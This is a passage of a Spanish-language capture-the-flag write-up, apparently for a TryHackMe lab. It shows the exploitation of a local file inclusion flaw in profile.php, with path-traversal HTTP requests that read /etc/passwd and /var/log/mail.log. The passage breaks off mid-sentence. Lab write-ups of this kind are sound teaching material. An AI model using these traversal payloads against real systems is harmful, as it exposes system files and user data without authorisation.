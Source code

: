 ### ✅ Payload usado:
```http
GET /profile.php?img=../../../../../../../../etc/passwd HTTP/1.1
```
Host: 10.10.182.236:50000
Cookie: PHPSESSID=m3kn999a2kcbl53lndtgjii00j

✅ Resultado:
El servidor devolvió con éxito el contenido de /etc/passwd, mostrando los usuarios disponibles en el sistema:

root

www-data

ubuntu

mysql

thm (usuario interesante, probable objetivo)

Usuarios: joshua y charles

🔍 Observaciones:
El usuario thm parece ser una cuenta legítima del sistema (no de servicio), por lo que podría contener la user flag o permitirnos acceso vía SSH.

La explotación de LFI confirma que tenemos la capacidad de leer cualquier archivo accesible por el servidor web.

---

## 🔎 Paso 24: Acceso a logs del sistema con LFI  

Mediante el parámetro vulnerable `img` en `profile.php`, accedimos al archivo de logs del servidor de correo:  

📸 *Captura: lectura de `/var/log/mail.log` mediante LFI*  

<img width="1387" height="429" alt="registros de mail en archivo log" src="https://github.com/user-attachments/assets/423a2dd5-93e3-4159-921e-4113edb0758c" />

### ✅ Payload usado:
```http
GET /profile.php?img=../../../../../../../../var/log/mail.log HTTP/1.1
```
Host: 10.10.182.236:50000

✅ Resultado:
El archivo mail.log reveló múltiples conexiones y fallos de autenticación relacionados con Postfix y Dovecot.

Aparecen sesiones TLS y pruebas de login fallidas, algunas con métodos no soportados (NTLM, SSL_accept fallidos).

🔍 Observaciones:
Los logs de correo son una fuente valiosa porque en ocasiones pueden contener:
